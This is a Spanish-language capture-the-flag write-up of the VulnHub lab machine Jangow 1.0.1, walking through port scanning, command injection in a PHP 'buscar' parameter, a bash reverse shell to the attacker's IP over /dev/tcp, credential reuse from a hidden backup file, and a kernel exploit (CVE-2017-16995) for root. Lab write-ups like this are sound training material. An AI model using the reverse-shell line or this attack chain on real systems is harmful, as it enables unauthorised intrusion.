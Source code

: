```yaml
---
title: Writeup de la máquina Jangow 1.0.1
date: 2024-07-24
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con *NMAP*, para comprobar cuales de ellos están abiertos.

```bash
nmap -p- --open -T5 192.168.1.154 -n -Pn -v
```

![picture](/assets/images/hackthebox/jangow1.png)

Vamos a lanzar otro escaneo a los puertos encontrados, pero esta vez, con los parámetros **-sV**, para comprobar las *versiones* de los servicios, y **-sC**, para lanzar una serie de *scripts* predeterminados de *NMAP* con los cuales podremos encontrar cosas interesantes, en el caso que las hubiera.

```bash
nmap -p21,80 -sV -sC 192.168.1.154 -v
```
Ha encontrado una ruta llamada **/site**.

![picture](/assets/images/hackthebox/jangow2.png)

Una vez dentro de **/site** vemos una página web.

![picture](/assets/images/hackthebox/jangow3.png)

---

## **Explotación**

Si clicamos dentro de la página web en el apartado de "**buscar**", no muestra contenido, pero en la URL nos aparece lo siguiente.

![picture](/assets/images/hackthebox/jangow4.png)

Al ser **"buscar"** un parámetro detras de un archivo **PHP**, y a continuación un signo "**=**", podríamos estar ante un **RCE** (*Remote Code Execution*), probamos a ejecutar comandos, y obtenemos resultado.

![picture](/assets/images/hackthebox/jangow5.png)

A continuación, la idea es obtener una **Reverse Shell**, que es la capacidad de poder obtener una **Shell** en nuestra máquina local y poder ejecutar comandos, para ello, nos pondremos en escucha por un puerto con un **Listener**.

```bash
nc -nlvp 443
```

Y enviaremos desde el navegador la **Reverse Shell**, añadiendo a la *URL* lo siguiente.

```bash
bash -c "bash -i >%26 /dev/tcp/'Nuestra IP'/443 0>%261"
```

Ejecutamos, y estamos dentro de la máquina.

![picture](/assets/images/hackthebox/jangow6.png)

----

## **Escalada de privilegios**

Buscando por la máquina encuentro en la ruta** /var/www/html** un archivo oculto llamado **.backup**, el cual contiene las *credenciales* de una base de datos de MySQL.

![picture](/assets/images/hackthebox/jangow7.png)

En la ruta */home* encontramos la carpeta personal del usuario **jangow01**, probamos a migrar a ese usuario con la contraseña encontrada y es correcta.

![picture](/assets/images/hackthebox/jangow8.png)

En la carpeta personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/jangow9.png)

Si mostramos la versión del **Kernel** de **Linux**, y buscamos en internet, encontramos la vulnerabilidad [**CVE-2017-16995**](https://www.exploit-db.com/exploits/45010) para poder escalar privilegios.

![picture](/assets/images/hackthebox/jangow10.png)

He intentado descargármela desde el servidor con **Wget**, pero no funciona, para poder cargarlo en el servidor, nos lo descargaremos en la máquina local y lo subiremos mediante **FTP**.

Para poder subirlo, nos tendremos que mover al directorio personal de **jangow01**, ya que el directorio establecido para **FTP** es */var/www* y no nos dejará subir nada ya que en este directorio no tenemos permisos.

![picture](/assets/images/hackthebox/jangow11.png)

Una vez subido comprobamos en que lenguaje de programación está escrito, y es en **C**, le cambio el nombre y lo compilamos.

![picture](/assets/images/hackthebox/jangow12.png)

Ejecutamos el *exploit*, escalamos privilegios, y podemos leer la segunda **flag**.

![picture](/assets/images/hackthebox/jangow13.png)


